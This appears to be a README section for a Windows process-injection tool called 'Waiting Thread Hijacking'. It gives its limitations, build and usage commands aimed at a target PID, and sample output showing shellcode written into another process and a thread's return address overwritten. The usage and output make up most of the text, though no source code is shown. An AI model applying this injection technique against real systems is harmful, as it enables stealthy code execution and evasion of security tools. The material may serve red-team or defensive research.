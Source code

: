 1. **Timing-dependent**: Thread must actually wake up for code to execute
2. **Thread availability**: Requires a suitable waiting thread
3. **Return address validation**: Must point to system DLLs for safety
4. **Stack manipulation**: Corrupted stack if not done carefully

## Implementation

### Building

```batch
cd techniques\39-waiting-thread-hijacking
build.bat
```

### Usage

```batch
# Inject into PID 1234 (default: WrQueue wait reason)
waiting_thread_hijacking.exe 1234

# Inject with specific wait reason
waiting_thread_hijacking.exe 1234 15

# Accept any wait reason
waiting_thread_hijacking.exe 1234 0xFFFFFFFF
```

### Example Output

```
========================================
Waiting Thread Hijacking
========================================

[*] Target PID: 1234
[*] Wait reason filter: 15 (0xFFFFFFFF = any)
[*] Found process, analyzing 24 threads
[*] TID 5678: State=Waiting, WaitReason=15
[*] Return address 0x00007FFE12345678 in module: ntdll.dll
[*] RSP: 0x000000A1B2C3D4E0, Return address: 0x00007FFE12345678
[+] Found suitable thread: TID 5678
[+] Target thread found: TID 5678
[+] RSP: 0x000000A1B2C3D4E0
[+] Original return address: 0x00007FFE12345678
[+] Allocated shellcode at: 0x00000180A0001000 (size: 148 bytes)
[+] Shellcode written successfully
[+] Shellcode is now executable
[+] Return address overwritten!
[+] Shellcode will execute when thread returns

[+] Injection successful!
[*] Wait for the target thread to return from its waiting state
```
